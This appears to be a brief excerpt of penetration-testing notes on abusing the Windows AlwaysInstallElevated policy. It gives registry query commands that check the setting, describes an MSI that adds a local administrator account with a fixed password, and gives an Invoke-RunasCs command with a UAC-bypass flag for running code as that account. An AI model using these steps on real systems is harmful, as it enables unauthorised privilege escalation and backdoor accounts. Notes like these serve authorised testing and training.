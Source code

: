 ### Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated` 

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use `Invoke-RunasCs(https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)` to get code execution as the newly created amit user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
